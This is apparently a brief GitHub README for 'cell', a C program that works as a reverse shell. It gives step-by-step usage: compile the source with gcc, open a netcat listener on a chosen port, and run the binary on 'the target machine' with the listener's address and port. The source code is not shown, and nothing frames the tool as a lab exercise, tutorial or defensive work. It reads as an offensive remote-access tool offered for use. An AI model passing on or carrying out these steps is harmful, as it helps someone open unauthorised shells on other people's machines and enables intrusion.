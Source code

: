 ## cell

**Compile with gcc `cell.c --output cell`**  
**Set up a nc listener to the port you desire `nc -lvp 9999`**  
**On the target machine run `./cell <address> <port>`**  

<img src="https://user-images.githubusercontent.com/69394316/229928414-12a215e7-931f-4bd9-93fd-0171607b7823.png" alt="C" width="50" height="50" />
